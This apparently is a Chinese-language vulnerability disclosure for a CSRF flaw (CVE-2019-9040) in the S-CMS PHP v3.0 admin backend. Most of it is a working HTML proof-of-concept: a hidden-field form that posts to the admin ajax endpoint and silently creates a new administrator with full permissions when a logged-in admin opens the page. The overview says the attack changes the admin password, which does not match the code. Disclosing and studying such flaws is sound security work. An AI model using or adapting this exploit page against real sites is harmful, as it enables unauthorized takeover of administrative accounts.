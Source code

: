 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|S-CMS企业建站系统PHP版v3.0后台存在CSRF可添加管理员权限账号|2019-02-22|qn（137535957@qq.cn）|[https://www.s-cms.cn](https://www.s-cms.cn) | [https://www.s-cms.cn](https://www.s-cms.cn) |PHP v3.0| [CVE-2019-9040](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-9040)|  

#### 漏洞概述  

> 恶意攻击者可以精心伪造一个html页面诱骗已登录的管理用户点击，从而更改管理员账户密码。   

### POC实现代码如下：  

> exp代码如下：  

``` html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/1.com.php/admin/ajax.php?type=admin&action=add&lang=0" method="POST">
      <input type="hidden" name="A&#95;login" value="test1" />
      <input type="hidden" name="A&#95;pwd" value="test1" />
      <input type="hidden" name="A&#95;type" value="1" />
      <input type="hidden" name="A&#95;a0" value="1" />
      <input type="hidden" name="A&#95;a1" value="1" />
      <input type="hidden" name="A&#95;a2" value="1" />
      <input type="hidden" name="A&#95;a3" value="1" />
      <input type="hidden" name="A&#95;a4" value="1" />
      <input type="hidden" name="A&#95;a5" value="1" />
      <input type="hidden" name="A&#95;a6" value="1" />
      <input type="hidden" name="A&#95;a8" value="1" />
      <input type="hidden" name="A&#95;a10" value="1" />
      <input type="hidden" name="A&#95;a7" value="1" />
      <input type="hidden" name="A&#95;a9" value="1" />
      <input type="hidden" name="A&#95;a11" value="1" />
      <input type="hidden" name="A&#95;textauth&#91;&#93;" value="all" />
      <input type="hidden" name="A&#95;productauth&#91;&#93;" value="all" />
      <input type="hidden" name="A&#95;bbsauth&#91;&#93;" value="all" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
